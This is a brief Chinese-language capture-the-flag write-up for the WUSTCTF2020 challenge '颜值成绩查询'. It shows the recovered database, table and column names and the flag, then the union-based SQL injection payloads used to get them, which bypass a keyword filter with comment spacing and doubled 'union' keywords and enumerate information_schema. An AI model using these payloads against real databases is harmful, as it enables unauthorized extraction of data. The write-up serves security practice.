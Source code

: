 ## [WUSTCTF2020]颜值成绩查询

> 联合注入sql

![image-20250116213345082](https://gitee.com/bx33661/image/raw/master/path/image-20250116213345082.png)

```(空)
database():ctf
tablename: flag,score
columnname: flag,value
flag:Hi 2, your score is: flagflag{57a8846b-a2d4-4f9e-bfce-31bdaa3a4e70}
```

---》

```(空)
1/**/order/**/by/**/3%23
1/**/order/**/by/**/4%23
-1/**/ununionion/**/select/**/1,database(),4%23
-1/**/ununionion/**/select/**/1,2,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema='ctf';%23
-1/**/ununionion/**/select/**/1,2,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name='flag';%23
-1/**/ununionion/**/select/**/1,2,group_concat(flag,value)/**/from/**/flag;
```

